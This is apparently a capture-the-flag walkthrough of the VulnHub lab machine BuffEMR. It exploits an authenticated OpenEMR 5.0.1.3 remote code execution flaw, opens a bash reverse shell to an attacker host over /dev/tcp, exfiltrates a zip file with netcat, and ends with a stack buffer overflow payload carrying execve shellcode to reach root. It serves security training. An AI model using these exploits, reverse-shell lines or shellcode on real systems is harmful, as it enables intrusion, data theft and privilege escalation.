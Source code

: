 # BuffEMR: 1.0.1

**VIDEO BuffEMR VulnHub: Easy Walkthrough/Writeup (No Commentary) with Lofi Music [HERE](https://youtu.be/2Nz7mFjZWXU)**

Skills:
- FTP Enumeration
- Information Leakage
- OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)
- Buffer Overflow x32 - Stack based [Linux x86 shellcode - execve("/bin/bash", ["/bin/bash", "-p"], NULL) - 33 bytes]

## The Walkthrough/Writeup

We'll use `nmap` to see which ports are open. We'll use the `-p-` parameter to scan the entire range of 65535 ports, and then we'll use `--open` to report the open ports. We'll use `-sS` for a faster and more precise scan to avoid false positives, and set `--min-rate 5000` to ensure that packets are transmitted at no less than 5000 packets per second. We'll also use `-vvv` to get verbose output, and `-n` so that DNS resolution isn't applied. Finally, we'll use the `-Pn` parameter to indicate that we won't perform host detection via ping, and that we'll attempt to scan the ports of all specified hosts regardless of whether they respond to pings or not. We're configuring it this way because we're in a controlled environment and want to quickly exploit it.

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ipvictim
```

Now we'll launch a series of basic reconnaissance scripts with `-sC` to detect the version and services running on these ports. We'll use `-sV` to get more information about the open ports.

```
nmap -sCV -p21,22,80 ipvictim
```

We see that port 21 is open, and nmap uses `ftp-anon`, one of the basic reconnaissance scripts it launches, to detect whether anonymous user access is enabled. In this case, it is. We also see a share resource, which we can try to download and enumerate to see what's inside. We'll navigate to our content directory with `cd ../content` and use FTP to connect to the victim machine.

We see that there's a README file and an openemr directory, so let's download it to our machine with:

```
wget -r ftp://ipvictim
```

OpenEMR is a medical practice management software, so let's use `whatweb` to perform a small reconnaissance of the web server:

```
whatweb http://ipvictim
```

We look at the website and there's nothing unusual, so let's try adding `openemr` to the URL to see what happens. This opens a login panel, so let's go to our `openemr` folder and try to find more information there:

```
find -name *conf*
```

We see `./sites/default/sqlconf.php`, so let's review it.

We have login credentials for the database. Interesting, but let's keep searching for all the resources:

```
find .
```

I'm interested in `./tests/test.accounts`.

We are given a username and password, in this case `admin:Monster123`. Let's try to log in to the login panel we saw earlier with these credentials.

We were able to log in with those credentials, now let's check the version of OpenEMR and look for possible vulnerabilities.

```
searchsploit openemr 5.0.1
```

We see a

 remote code execution (authenticated). Since we already have credentials, we can try this exploit to see if it works. Let's go to our exploits directory to download the exploit.

```
searchsploit -m php/webapps/45161.py
```

Let's see what it does.

Now let's use the exploit:

We put ourselves in listening mode:

```
nc -nlvp 443
```

And now we execute the exploit to see if it works:

```
python 45161.py -u admin -p Monster123 -c "whoami | nc yourattackerip 443" http://victimipvictim/openemr
```

As we can see, we receive something on our end, so we can try to send ourselves a bash.

```
python 45161.py -u admin -p Monster123 -c "bash -i >& /dev/tcp/yourattackerip/443 0>&1" http://victimipvictim/openemr
```

We gained access with the exploit, now let's get a tty treatment on the console to make it fully interactive.

```
script /dev/null -c bash (press enter)
Ctrl + Z (press enter)
stty raw -echo; fg (press enter)
reset xterm (press enter)
export TERM=xterm (press enter)
export SHELL=/bin/bash (press enter)
stty rows yournumber columns yournumber (press enter)
```

We go to the home directory `cd /home`, we see a user called `buffemr`, and if we try to enter `cd buffemr` it says permission denied. If we use `ls -l`, we see that the user is a system-level user, and the mission now is to become that user.

Let's search for SUID permissions to see if we can elevate our privileges through some binary whose owner is root. We do `cd /` and then:

```
find -perm -4000 -user root 2>/dev/null
```

We see `pkexec`, but in this case, we're not going to exploit it. We'll look for another way.

Let's go back to the `openemr` folder and try to enumerate to see what else we can find, let's check the `sql` folder, we see a `keys.sql` file, let's see what it shows us.

After thoroughly reviewing, we see something that might interest us.

Let's copy the base64-encoded string and try to decode it:

```bash
echo "c2FuM25jcnlwdDNkCg==" | base64 -d; echo
```

We see that it's a possible password, and we already have a user, `buffemr`, but when we try it, we see that it's not the user's password. So let's enumerate in search of more users.

Let's `cd /var` to enumerate things from the web service, and we see a `user.zip`. Let's try to download it to our content directory.

Let's set up a listener on port 443, and anything we receive in terms of connections will be saved to the `user.zip` file. On our machine:

```bash
nc -nlvp 444 > user.zip
```

On the server console:

```bash
nc attackerip 444 < user.zip
```

Let's check the contents of `user.zip` on our machine.

We are prompted for a password, so we can try the password we found earlier `c2FuM25jcnlwdDNkCg==`, and indeed we were able to decompress the file. We checked the content and found the user password for `buffemr`.

Let's try to log in to the system console with `buffemr` using the password, and we were able to log in. Here we can find the flag for the first part; now we need to be ROOT.

Now, as this user, we will scan again since this user may have access to other files `cd /`.

```bash
find -perm -4000 -user root 2>/dev/null
```

We found something suspicious in `./opt/dontexecute`.

Let's do a basic buffer overflow test and see what happens.

```bash
./opt/dontexecute A...; echo (write many times the letter "A" to trigger segmentation fault (core dumped))
```

We can try to do a buffer overflow:

```bash
cd /opt/
ls
which gdb
gdb ./dontexecute -q
r $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x70\xd6\xff\xff"')
```

We were able to execute a bash, now let's do it outside of gdb:

```bash
./dontexecute $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x70\xd6\xff\xff"')
```
```
